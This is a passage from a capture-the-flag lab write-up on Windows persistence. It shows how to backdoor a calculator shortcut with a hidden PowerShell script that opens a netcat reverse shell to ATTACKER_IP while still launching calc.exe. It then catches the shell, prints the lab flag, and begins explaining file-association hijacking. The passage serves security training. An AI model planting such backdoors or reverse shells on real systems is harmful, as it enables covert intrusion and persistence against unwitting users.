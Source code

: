 ![calc properties](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7a7349b9dcc5af3180044ee1d7605967.png)

Before hijacking the shortcut's target, let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the `-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![backdoored lnk file](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/fe703ddea6135e0c867afcc6f61a8cd2.png)

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```shell-session
user@AttackBox$ nc -lvp 4445
```

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully.&#x20;

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png) Execute `C:\flags\flag5.exe` from your reverse shell to get your flag!

Once we do all that, we will get a shell as administrator:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515163008.png)

Let's get our flag:

```
C:\flags>.\flag5.exe

THM{NO_SHORTCUTS_IN_LIFE}
```

### Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:
